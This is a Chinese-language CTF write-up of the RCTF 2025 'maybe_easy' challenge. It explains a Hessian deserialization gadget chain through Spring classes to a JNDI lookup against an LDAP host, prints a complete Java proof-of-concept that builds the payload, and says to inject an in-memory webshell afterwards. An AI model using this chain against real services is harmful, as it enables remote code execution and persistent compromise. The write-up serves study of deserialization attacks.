










本文最初发表于 [SU 战队的 2025 RCTF WriteUp](https://su-team.cn/post/rctf-2025-su-wu/#maybe_easy)。

经典JAVA 反序列化题目，复习一下[SU18 巨佬文章](https://su18.org/post/hessian/)

```Java
static {
    WHITE_PACKAGES.add("com.rctf.server.tool.");
    WHITE_PACKAGES.add("java.util.");
    WHITE_PACKAGES.add("org.apache.commons.logging.");
    WHITE_PACKAGES.add("org.springframework.beans.");
    WHITE_PACKAGES.add("org.springframework.jndi.");
}
```

观察发现白名单跟`Spring AOP` 和 `Spring Context & AOP` 两条链子关系很大，最后极有可能打的是JNDI


给了个chain 类存在compareTo方法，那么kick-off入口类也就确定了是TreeMap，TreeMap可以触发compareTo

```Java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package com.rctf.server.tool;

import java.io.Serializable;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;

public class Maybe extends Proxy implements Comparable<Object>, Serializable {
    public Maybe(InvocationHandler h) {
        super(h);
    }

    public int compareTo(Object o) {
        try {
            Method method = Comparable.class.getMethod("compareTo", Object.class);
            Object result = this.h.invoke(this, method, new Object[]{o});
            return (Integer)result;
        } catch (Throwable e) {
            throw new RuntimeException(e);
        }
    }
}
```

在idea 里面扒一扒继承InvocationHandler  接口且在白名单的类有哪些，只有这三个



EarlySingletonInvocationHandler 类看着没啥用



ServiceLocatorInvocationHandler 类最后会触发`args[0]`的toString 方法，利用难度太大







参考Spring1 链子易知ObjectFactoryDelegatingInvocationHandler可以自定义的ObjectFactory 类触发 getObject 方法



翻了一下找到了TargetBeanObjectFactory 这个类，恰巧SimpleJndiBeanFactory 这个类继承自BeanFactory 接口，其中的getBean 方法会触发lookup ，一切就大功告成了








PoC如下，用java-chains 打 JNDI 二次反序列化注入内存马即可

```Java
package org.example;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.hessian.io.SerializerFactory;
import org.apache.commons.logging.impl.NoOpLog;
import org.example.tool.HessianFactory;
import org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor;
import org.springframework.aop.target.HotSwappableTargetSource;
import org.springframework.jndi.support.SimpleJndiBeanFactory;
import org.springframework.scheduling.annotation.AsyncAnnotationAdvisor;
import com.rctf.server.tool.Maybe;
import org.springframework.beans.factory.BeanFactory;
import org.springframework.beans.factory.ObjectFactory;
import org.springframework.jndi.support.SimpleJndiBeanFactory;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.*;

public class PoC1 {
    public static void main(String[] args) throws Exception {
        // ldap url
        String url = "ldap://xxxx:50389/4e13d5";

        SimpleJndiBeanFactory beanFactory = new SimpleJndiBeanFactory();
//         String SimpleJndiBeanFactory = "org.springframework.jndi.support.SimpleJndiBeanFactory";
//         SimpleJndiBeanFactory beanFactory = (SimpleJndiBeanFactory) Class.forName(SimpleJndiBeanFactory).getDeclaredConstructor(new Class[]{}).newInstance();
        beanFactory.setShareableResources(url);
        Class<?> tboFactoryClass = Class.forName("org.springframework.beans.factory.config.ObjectFactoryCreatingFactoryBean$TargetBeanObjectFactory");
        Constructor<?> tboFactoryConstructor = tboFactoryClass.getDeclaredConstructor(BeanFactory.class, String.class);
        tboFactoryConstructor.setAccessible(true);
        // 将我们的 JNDI BeanFactory 和 JNDI URL 注入
        ObjectFactory<?> objectFactory = (ObjectFactory<?>) tboFactoryConstructor.newInstance(beanFactory, url);

        // 3. 第二环：构造 ObjectFactoryDelegatingInvocationHandler
        // 这个类是 AutowireUtils 的私有内部类，同样需要用反射
        Class<?> ofdihClass = Class.forName("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler");
        Constructor<?> ofdihConstructor = ofdihClass.getDeclaredConstructor(ObjectFactory.class);
        ofdihConstructor.setAccessible(true);
        // 将上一步构造的 ObjectFactory 注入
        InvocationHandler handler = (InvocationHandler) ofdihConstructor.newInstance(objectFactory);

        // 4. 第一环：构造 Maybe Gadget
        Maybe maybeProxy = new Maybe(handler);

        TreeMap<Object,Object> m = new TreeMap<>();
        setFieldValue(m, "size", 2);
        setFieldValue(m, "modCount", 2);
        Class<?> nodeC = Class.forName("java.util.TreeMap$Entry");
        Constructor nodeCons = nodeC.getDeclaredConstructor(Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);
        Object node = nodeCons.newInstance("RoboTerh", new Object[0], null);
        Object right = nodeCons.newInstance(maybeProxy, new Object[0], node);
        setFieldValue(node, "right", right);
        setFieldValue(m, "root", node);

        String payload_base64 = HessianFactory.serialize((Object) m);
        System.out.println("payload_base64: " + payload_base64);
//        HessianFactory.deserialize(payload_base64);

    }

    public static void setFiled(String classname, Object o, String fieldname, Object value) throws Exception {
        Class<?> aClass = Class.forName(classname);
        Field field = aClass.getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(o, value);
    }
    public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }
    public static Field getField (final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }
}
```



感谢出题师傅手下留情，俺做出来了，要是学了这么久的JAVA要是这次再爆0，俺真的会玉玉了


